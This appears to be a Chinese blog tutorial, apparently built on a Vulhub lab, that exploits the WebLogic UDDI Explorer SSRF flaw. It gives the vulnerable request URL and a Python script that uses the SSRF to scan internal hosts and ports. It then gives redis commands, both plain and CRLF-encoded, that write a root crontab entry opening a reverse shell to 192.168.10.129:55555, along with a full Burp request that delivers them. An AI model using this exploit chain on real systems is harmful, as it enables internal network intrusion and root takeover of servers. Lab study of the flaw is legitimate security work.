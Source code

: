 **目录**

[Weblogic SSRF](#t0)

[探测内网信息](#t1)

[攻击内网redis应用](#t2)

* * *

> [Weblogic](https://so.csdn.net/so/search?q=Weblogic&spm=1001.2101.3001.7020)中存在一个SSRF漏洞，利用该漏洞攻击者可以发送任意HTTP请求，进而攻击内网中redis、fastcgi等脆弱组件。

关于SSRF漏洞我们就不讲了，传送门——> [SSRF(服务端请求伪造)漏洞](https://blog.csdn.net/qq_36119192/article/details/84980510 "SSRF(服务端请求伪造)漏洞")

Weblogic SSRF
-------------

该漏洞存在于：[http://ip:7001/uddiexplorer/SearchPublicRegistries.jsp](http://ip:7001/uddiexplorer/SearchPublicRegistries.jsp "http://ip:7001/uddiexplorer/SearchPublicRegistries.jsp") 页面，我们向该页面提交以下参数：

```
http://ip:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://ip:port
```


在operator这个参数的位置存在SSRF漏洞，我们可以将该参数写成任意需要探测的主机+端口：http://ip:port

建议这里的ip不要填写 127.0.0.1 ，而是填写服务器的ip地址。因为如果这里的ip用的是127.0.0.1的话，除了7001端口，其他端口检测都是关闭的，但是实际上其他端口有开放的。

![](https://img-blog.csdnimg.cn/20201120113359994.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

探测开放的端口，有三种情况：

*   端口开放，服务可识别，但是探测的是本地7001端口，返回：The server at http://127.0.0.1:7001 returned a 404 error code (Not Found). Please ensure that your URL is correct, and the web service has deployed without error.
*   端口开放，但是服务不可识别(非http协议)，返回：which did not have a valid SOAP content-type: null.
*   端口开放，服务可识别(http协议)，返回：which did not have a valid SOAP content-type: text/html: charset-UTF-8

![](https://img-blog.csdnimg.cn/20201120115034153.png)

![](https://img-blog.csdnimg.cn/20190503214800606.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

探测关闭的端口，会返回 could not connect over HTTP to server

![](https://img-blog.csdnimg.cn/20200110095342258.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 探测内网信息

所以我们可以利用weblogic的这个SSRF探测[内网](https://so.csdn.net/so/search?q=%E5%86%85%E7%BD%91&spm=1001.2101.3001.7020)的一些信息。如主机端口的开放情况等。

*   weblogic服务器ip：172.19.0.3
*   内网redis服务器ip：172.19.0.2

写了个脚本来探测内网主机端口的开放情况。

```
import requests       
def tance(ip,port):      
	url="http://xx.xx.xx.xx:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://"+ip+":"+port      
	resp=requests.get(url)      
	if "could not connect over HTTP to server" in resp.text:      
		print("[-]："+ip+":"+port+"  is closed")      
	else:      
		print("[+]："+ip+":"+port+"   is open！"+"*"*30)       1
f2=open("port.txt","r",encoding="utf-8")      1
ports=f2.readlines()       1
with open("ip.txt","r",encoding="utf-8") as f:      1
	ips=f.readlines()      1
	for ip in ips:      1
		ip=ip.strip()      1
		for port in ports:      1
			port=port.strip()      2
			tance(ip,port)
```


### ![](https://img-blog.csdnimg.cn/20201120160346868.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 攻击内网redis应用

Weblogic的SSRF有一个比较大的特点，其虽然是一个“GET”请求，但是我们可以通过传入**%0a%0d**来注入换行符，而某些服务（如redis）是通过换行符来分隔每条命令，也就说我们可以通过该SSRF攻击内网中的redis服务器。

首先，通过ssrf探测内网中的redis服务器

![](https://img-blog.csdnimg.cn/20201120144708867.png)

我们通过写入定时任务反弹shell的命令如下：

```
set xx "\n\n\n\n* * * * * root bash -i >& /dev/tcp/192.168.10.129/55555 0>&1\n\n\n\n"      
config set dir /etc/      
config set dbfilename crontab      
save
```


对应的URL编码如下,每一行的换行符是 \\r\\n，对应的就是 %0D%0A 。

```
set%20xx%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.10.129%2F55555%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave
```


![](https://img-blog.csdnimg.cn/2020112015373336.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

然后用burp发包，这里在这反弹命令前面和后面，我们加几个换行符  test%0D%0A%0D%0A

```
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.19.0.2:6379/test%0D%0A%0D%0Aset%20xx%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.10.129%2F55555%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Atest HTTP/1.1      
Host: xx.xx.xx.xx:7001      
Cache-Control: max-age=0      
Upgrade-Insecure-Requests: 1      
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86 Safari/537.36      
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3      
Accept-Encoding: gzip, deflate      
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8      
Cookie: publicinquiryurls=http://www-3.ibm.com/services/uddi/inquiryapi!IBM|http://www-3.ibm.com/services/uddi/v2beta/inquiryapi!IBM V2|http://uddi.rte.microsoft.com/inquire!Microsoft|http://services.xmethods.net/glue/inquire/uddi!XMethods|; rememberMe=1; JSESSIONID=n1n2f37WxsT640zyT9YG4KQYb5Qb6bPp1hCtCWy9MRhzp2GTGp1J!-2120275894      1
Connection: close
```


![](https://img-blog.csdnimg.cn/20201211162210324.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

或者用脚本直接反弹

![](https://img-blog.csdnimg.cn/20201120150923817.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)

参考文章：[Vulhub - Docker-Compose file for vulnerability environment](https://vulhub.org/#/environments/weblogic/ssrf/ "Vulhub - Docker-Compose file for vulnerability environment")

相关文章：[SSRF(服务端请求伪造)漏洞](https://xie1997.blog.csdn.net/article/details/84980510 "SSRF(服务端请求伪造)漏洞")